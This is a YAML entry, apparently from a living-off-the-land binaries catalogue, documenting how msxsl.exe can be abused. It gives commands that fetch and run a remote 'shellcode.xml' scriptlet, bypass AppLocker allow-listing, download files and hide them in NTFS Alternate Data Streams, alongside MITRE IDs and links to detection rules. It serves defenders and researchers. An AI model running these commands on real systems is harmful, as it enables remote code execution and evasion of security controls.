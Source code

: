 ```yaml
---
Name: msxsl.exe
Description: Command line utility used to perform XSL transformations.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
  - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
      - Execute: Remote
  - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
    Tags:
      - Execute: XSL
      - Execute: Remote
  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>
    Description: Using remote XML and XSL files, save the transformed XML file to disk.
    Usecase: Download a file from the internet and save it to disk.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>:ads-name
    Description: Using remote XML and XSL files, save the transformed XML file to an Alternate Data Stream (ADS).
    Usecase: Download a file from the internet and save it to an NTFS Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1564
    OperatingSystem: Windows
Full_Path:
  - Path: no default
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_wmic_xsl_script_processing.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_msxsl_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_msxsl_network.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://twitter.com/subTee/status/877616321747271680
  - Link: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
  - Link: https://github.com/RonnieSalomonsen/Use-msxsl-to-download-file
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Ronnie Salomonsen
    Handle: '@r0ns3n'
---
```

